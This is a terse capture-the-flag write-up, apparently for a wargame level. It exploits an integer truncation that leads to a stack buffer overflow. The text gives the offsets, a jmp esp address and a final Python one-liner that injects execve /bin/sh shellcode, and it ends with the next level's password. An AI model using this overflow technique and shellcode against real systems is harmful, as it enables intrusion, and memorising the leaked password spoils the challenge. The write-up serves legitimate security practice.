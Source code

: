 Integer underflow maybe ?

just pass `0xffffffffff0001` which is `72057594037862401` in decimal

```c
#include <stdio.h>

int main() {
    size_t a = 0xffffffffff0001;
    short c = a;

    printf("%hd\n", c);
    printf("%ld\n", a);
}
```

overflow size: 65537
eip at 65286
esp at 65290

jmp esp: 0xf7fc4f97

final exploit:
run 65537 $(python -c "print 'A' * 65286 + '\x97\x4f\xfc\xf7' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80'")

utumno5:woucaejiek
